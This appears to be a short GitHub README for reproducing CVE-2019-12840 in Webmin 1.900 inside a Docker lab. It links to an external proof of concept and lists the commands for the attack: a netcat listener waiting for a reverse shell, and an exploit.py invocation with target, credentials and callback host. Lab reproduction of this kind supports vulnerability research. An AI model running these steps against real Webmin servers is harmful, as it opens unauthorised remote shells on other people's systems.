 # CVE-2019-12840

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-12840>


## PoC / Exploit
* <https://github.com/KrE80r/webmin_cve-2019-12840_poc>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900

## Reproduction 

* Server
    - Docker:
    ```shell script
    docker build -t cve-2019-12840 .
    docker run -p10000:10000 -it cve-2019-12840
    ```
    
    - Script:
    ```shell script
    bash installation.sh
    ```    

* Client
    - Terminal 1 (reverse shell) :
    ```shell script
    nc -nlv 7777
    ```
    
    - Terminal 2:
    ```shell script
    python3 exploit.py -u SERVER_IP -U test -P qwerty -lhost LOCAL_IP -lport 7777
    ```
  